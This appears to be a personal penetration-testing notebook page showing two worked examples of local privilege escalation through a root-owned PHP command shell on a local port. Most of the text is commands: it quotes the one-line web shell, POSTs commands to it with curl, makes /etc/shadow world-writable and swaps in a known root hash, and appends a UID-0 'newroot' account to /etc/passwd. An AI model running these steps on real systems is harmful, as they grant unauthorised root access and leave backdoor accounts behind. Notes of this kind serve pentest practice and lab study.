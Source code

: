 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```bash - target
find / -iname *.php* 2>/dev/null
```

```bash - target
find / -iname *.html* 2>/dev/null
```


```bash - target
cat start_page.php
```

Here we can see discussion of cmd.php page.

![[Pasted image 20220713144014.png]]

```bash - target
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

![[Pasted image 20220713144136.png]]

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```bash - target
su root
```

```bash - target
password
```

#### Example 2

We find a php file listening on port 8000.

```bash - target
cat cmd.php
```

><?php system($_POST['cmd']); ?>

verify we can run commands with this by creating a test file:

```bash - target
curl -X POST --data cmd='touch /home/$USER/test' 127.0.0.1:8000/cmd.php
```

Generate a password hash for the password “password”

using openssl:

```bash - target
openssl passwd "password"
```

```bash - target
curl -X POST --data cmd=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8000/cmd.php
```

```bash - target
cat /etc/passwd | grep root
```

![[Pasted image 20221110094556.png]]

```bash - target
su newroot
```

```bash - target
password
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
